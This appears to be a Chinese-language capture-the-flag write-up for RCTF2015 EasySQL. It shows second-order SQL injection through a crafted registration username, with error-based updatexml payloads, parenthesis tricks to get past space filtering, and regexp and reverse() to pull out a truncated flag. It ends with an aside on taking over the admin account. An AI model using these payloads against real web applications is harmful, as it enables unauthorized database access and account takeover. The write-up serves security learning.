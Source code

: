 # [RCTF2015]EasySQL 二次注入 regexp指定字段 reverse逆序输出

第一眼没看出来 我以为是伪造管理员

就先去测试管理员账号

去register.php

注册 首先先注册一个自己的账号

我喜欢用admin123



<img src="https://i-blog.csdnimg.cn/blog_migrate/5d5c4efa53e9d79db3e6fe81927a02d6.png" alt="" style="max-height:186px; box-sizing:content-box;" />




<img src="https://i-blog.csdnimg.cn/blog_migrate/4f6e7ec68c74d7fe9757b8d25b401240.png" alt="" style="max-height:222px; box-sizing:content-box;" />


发现里面存在修改密码的内容 那么肯定链接到数据库了

题目又提示是sql

那我们看看能不能修改管理员密码

首先我们猜测闭合

通过用户名

```undefined
admin"
```

然后点击修改密码 进行修改密码

发现报错了



<img src="https://i-blog.csdnimg.cn/blog_migrate/7c6a594e88cb7f5bcb4d09e04920d207.png" alt="" style="max-height:222px; box-sizing:content-box;" />


这里我们就可以先进行判断sql语句了

```cobol
select  * from users where username="admin"" and pwd='21232f297a57a5a743894a0e4a801fc3
```

那我们这里就很简单了 因为修改成功没有回显报错有回显

我们直接报错注入即可

```scss
admin"or(updatexml(1,0x7e,4))#
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/80ba1a3ba8d0907bc6914c793bf9960d.png" alt="" style="max-height:327px; box-sizing:content-box;" />


发现报错了 肯定存在过滤

那我们fuzz一下



<img src="https://i-blog.csdnimg.cn/blog_migrate/d246e44f6a23e3277c49117b64c1668f.png" alt="" style="max-height:317px; box-sizing:content-box;" />


and 和 空格被过滤

绕过即可

```scss
admin"or(updatexml(1,0x7e,4))#
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/ee8673d5c11c748e96505230e867981c.png" alt="" style="max-height:88px; box-sizing:content-box;" />


报错成功

我们开始注入

```scss
admin"or(updatexml(1,concat(0x7e,database()),3))#
 
数据库为 web_sqli
 
 
admin"or(updatexml(1,concat(0x7e,(select(group_concat(table_name))from(information_schema.tables)where(table_schema="web_sqli"))),4))#
 
爆出表名为 article,flag,users
 
 
admin"or(updatexml(1,concat(0x7e,(select(group_concat(column_name))from(information_schema.columns)where(table_name="users"))),4))#
 
 
```

这里就有一个坑



<img src="https://i-blog.csdnimg.cn/blog_migrate/d6b6aeacb8daef996da537ff2b4963ac.png" alt="" style="max-height:108px; box-sizing:content-box;" />


报错出来是错的。。。。  应该是here

晕咯 学习一下函数

## regexp

```scss
regexp('^r')
```

这个函数可以通过正则来匹配字段 这里就是 r开头的字段

```scss
admin"or(updatexml(1,concat(0x7e,(select(group_concat(column_name))from(information_schema.columns)where(table_name="users")&&(column_name)regexp('^r'))),4))#
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/855488f04acc26ed4b7a3821e721a07f.png" alt="" style="max-height:104px; box-sizing:content-box;" />


接着写

```scss
admin"or(updatexml(1,concat(0x7e,(select(group_concat(real_flag_1s_here))from(users))),4))#
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/dc23ed7df77566f2b6ebeda7ee2bc6d3.png" alt="" style="max-height:154px; box-sizing:content-box;" />


flag开头 那我们直接查f开头即可

```scss
admin"or(updatexml(1,concat(0x7e,(select(group_concat(real_flag_1s_here))from(users)where(real_flag_1s_here)regexp('^f'))),4))#
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/9aceb441d0b2dff667ecc98fd6659301.png" alt="" style="max-height:177px; box-sizing:content-box;" />


还有一半无法读取 并且无法使用

看了wp 使用逆序输出 然后使用脚本恢复即可

## reverse

```scss
admin"or(updatexml(1,concat(0x7e,reverse((select(group_concat(real_flag_1s_here))from(users)where(real_flag_1s_here)regexp('^f')))),4))#
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/0623ecbee3eabf2130b876c48c6a2498.png" alt="" style="max-height:176px; box-sizing:content-box;" />


```cobol
flag='}0e330032cd22-f828-d154-53d8-6e'
flag=flag[::-1]
print(flag)
```



拼接即可得出flag

## 其他

提一嘴 我们只要知道了闭合就可以修改管理员密码了

```undefined
admin"#
```

然后修改 密码 就可以登入 admin账号了 但是这道题没有用就是了
